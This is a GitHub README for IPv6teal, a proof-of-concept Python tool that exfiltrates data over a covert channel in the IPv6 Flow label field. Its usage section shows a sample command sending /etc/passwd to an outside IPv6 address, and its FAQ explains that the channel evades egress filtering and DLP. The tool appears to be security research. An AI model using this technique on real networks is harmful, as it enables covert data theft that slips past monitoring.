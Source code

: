 # IPv6teal

IPv6teal is a Python 3 tool to stealthily exfiltrate data from an internal network using a [covert channel](https://en.wikipedia.org/wiki/Covert_channel) 
built on top of the IPv6 header `Flow label` field.

It is made of 2 components:

- **[exfiltrate.py](./exfiltrate.py)**: Client-side component, used to exfiltrate data from an internal machine
- **[receive.py](./receive.py)**: Server-side component, used to received the exfiltrated data

Jump to: [Background](#Background) | [Usage](#Usage) | [F.A.Q.](#FAQ)

## Background

IPv6 packets have a [header](https://en.wikipedia.org/wiki/IPv6_packet#Fixed_header) containing a 20-bit field, `Flow label`.

![IPv6 header](https://user-images.githubusercontent.com/136675/61957346-9b870c00-afae-11e9-9ac3-4b2c0e0dedb7.png)

> **Flow label**: Originally created for giving real-time applications special service.
> When set to a non-zero value, it serves as a hint to routers and switches with multiple outbound paths 
> that these packets should stay on the same path, so that they will not be reordered.
>
> (Wikipedia)

This field can be set to an arbitrary value without impacting how the packet will be delivered to its destination.

Therefore, we can build a covert channel by storing data to exfiltrate in this field. The exfiltration script sends 1 
IPv6 packet per 20-bits of data, and the receiver script reconstructs the data by reading this field. The payload of every
IPv6 packet send contains a magic value, along with a sequence number, so the receiving end can determine _which_ IPv6 packets
are relevant for it to decode.


## Usage

Basic requirements:

- Both the client (where lies the data to exfiltrate) and the server (where the data should be exfiltrated) 
need to support IPv6 and to have an IPv6 address. For my tests, I used a $5/month DigitalOcean droplet.

- Both the client and the server need to have scapy installed (`pip install scapy==2.4.2`)

- Python 3

### Server

On the machine to which you wish to exfiltrate data, run `receive.py` as root.

```bash
$ python3 receive.py hashes

[-] Started receiver
```
### Client

On the machine where you wish to exfiltrate data, run `exfiltrate.py` as root.

```bash
$ python3 exfiltrate.py --help

usage: exfiltrate.py [-h] [--packet-sending-interval-ms SENDING_INTERVAL]
                     input_file destination

positional arguments:
  input_file            File to exfiltrate
  destination           IPv6 address where to exfiltrate data

optional arguments:
  -h, --help            show this help message and exit
  --packet-sending-interval-ms SENDING_INTERVAL
                        Number of milliseconds to wait between each IPv6
                        packet to send (default: 10)

```

Sample use:

```
$ python3 exfiltrate.py /etc/passwd 2a03:b0c0:3:d0::cee:8001  
                                                                                               
Sending 560 bytes (4480 bits) in 225 IPv6 packets...    
                                                                                                                                                     
..................................................                                                                                                                                                           
..................................................                                                                                                                                                           
..................................................                                                                                                                                                           
..................................................                                                                                                                                                           
........................                                          
                                                                                                                                           
done                                  
```



## F.A.Q.

### Couldn't we directly store the data in an ICMPv6 echo-request packet or in the payload of an IPv6 packet itself?

We definitely could. However this PoC was built for the (fictional) scenario of an enterprise network which would 
have strict egress network filtering such as ICMPv6 being blocked from the internal user network to the Internet, 
and/or where a DLP would be analyzing the payloads of IPv6/ICMPv6 packets.

Even in this case, it is unlikely that all outgoing IPv6 communications would be blocked and would therefore still
allow for data exfiltration using this technique. 

### If it fast?

Although the data being sent is compressed using GZIP, it's terribly slow. 
Each IPv6 packet sent over the network contains 20 _bits_ of data (that's two and a half ASCII characters).

During my tests I managed to transfer a 1.2 MB file of uncompressed random data in 30 minutes
across 2 machines of different DigitalOcean regions (Amsterdam and Frankfurt).

###  Is it reliable?

Absolutely not. Any IPv6 packet dropped will make the transmission fail. I intentionally did not want to 
make the tool reliable to keep it simple and avoid reimplementing a TCP-like pseudo network stack.

However, it does handle out-of-order IPv6 packets.

### Is the transmission encrypted?

No. If you are transmitting sensitive data, it's a good idea to encrypt the data on the client side before feeding it to
the exfiltration script.

### Can it handle large files?

Probably not. Maybe. In any case it will be slow.

### Why do the scripts need to run as root?

Because they craft raw IPv6 packets. If this is a problem, you can give the `cap_net_raw` capability to a 
non-superuser and have it run the scripts.

### Some packets are getting lost, what can I do?

Try to increase the value of the `--packet-sending-interval-ms` argument of the exfiltration script. 
It is 10 milliseconds by default, meaning that the programs waits 10ms before sending every new packet.
  
## About

Original idea from the paper _Covert Channels in IPv6_  by Norka B. Lucena, Grzegorz Lewandowski 
and Steve J. Chapin from Syracuse University.

For any question or bug report, feel free to [open an issue](https://github.com/christophetd/ipv6teal/issues/new) 
or to tweet [@christophetd](https://twitter.com/christophetd). 